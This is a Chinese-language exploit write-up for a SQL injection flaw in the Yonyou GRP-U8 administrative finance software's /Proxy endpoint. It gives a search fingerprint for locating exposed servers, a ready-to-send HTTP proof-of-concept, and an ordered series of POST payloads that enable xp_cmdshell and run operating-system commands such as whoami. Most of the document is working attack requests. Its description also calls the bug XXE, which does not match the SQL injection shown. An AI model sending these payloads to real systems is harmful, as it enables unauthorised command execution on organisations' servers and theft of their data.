


# 用友 GRP-U8 Proxy SQL注入 CNNVD-201610-923

## 漏洞描述

用友GRP-u8存在XXE漏洞，该漏洞源于应用程序解析XML输入时没有进制外部实体的加载，导致可加载外部SQL语句，以及命令执行

## 影响版本

<a-checkbox checked>用友GRP-U8行政事业内控管理软件（新政府会计制度专版）</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="用友GRP-U8行政事业内控管理软件"</a-checkbox></br>

## 漏洞复现

漏洞利用POC请求包

```xml
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;) Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION> <NAME>AS_DataRequest</NAME><PARAMS><PARAM> <NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM> <NAME>Data</NAME><DATA format="text">select @@version</DATA></PARAM></PARAMS> </R9FUNCTION></R9PACKET>
```

请求后按F12查看源代码可以得到SQL语句查询结果





也可以调用 `xp_cmdshell` 来执行系统命令(大部分此系统为`windows`)



<a-checkbox checked>注意：大部分默认是不开启 xp_cmdshell 模块的</a-checkbox></br>


可以使用如下方法打开`xp_cmdshell方法`

将如下POST数据按顺序发送(`注意 master 改为当前数据库名`)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">use master</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'show advanced options',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'xp_cmdshell',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

再发送以下数据可成功使用(也可能失败)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

<a-checkbox checked>执行过程中报错 java.sql.SQLException【错误代码: 0; 相关信息:xxxxxx】不用理会</a-checkbox></br>

发送请求后再使用此模块则会成功请求执行系统命令